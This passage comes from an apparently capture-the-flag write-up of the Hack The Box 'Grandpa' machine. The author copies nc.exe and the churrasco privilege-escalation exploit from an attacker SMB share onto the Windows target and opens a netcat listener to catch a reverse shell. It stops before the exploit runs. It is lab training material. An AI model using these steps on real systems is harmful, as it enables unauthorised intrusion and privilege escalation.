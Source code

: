 ```bash
C:\Documents and Settings\All Users\Desktop>cd c:\
cd c:\

C:\>cd windows
cd windows

C:\WINDOWS>cd temp
cd temp

C:\WINDOWS\Temp>copy \\10.10.14.18\share\nc.exe nc.exe
copy \\10.10.14.18\share\nc.exe nc.exe
        1 file(s) copied.

C:\WINDOWS\Temp>copy \\10.10.14.18\share\churrasco.exe churrasco.exe
copy \\10.10.14.18\share\churrasco.exe churrasco.exe
        1 file(s) copied.

C:\WINDOWS\Temp>

```
Let's check the files.
```bash
C:\WINDOWS\Temp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FDCB-B9EF

 Directory of C:\WINDOWS\Temp

04/20/2023  11:12 PM    <DIR>          .
04/20/2023  11:12 PM    <DIR>          ..
04/20/2023  11:10 PM            31,232 churrasco.exe
04/20/2023  11:00 PM            59,392 nc.exe
02/18/2007  03:00 PM            22,752 UPD55.tmp
12/24/2017  08:19 PM    <DIR>          vmware-SYSTEM
04/20/2023  09:34 PM            25,475 vmware-vmsvc.log
09/16/2021  01:23 PM             6,973 vmware-vmusr.log
04/20/2023  09:34 PM               728 vmware-vmvss.log
               7 File(s)        286,467 bytes
               3 Dir(s)   1,263,308,800 bytes free

C:\WINDOWS\Temp>

```

Now setup a listener on our machine to catch a reverse shell.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Grandpa/Churrasco]
└─$ sudo rlwrap nc -lvp 80                                            
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80

```
Now we can execute our payload with the exploit.
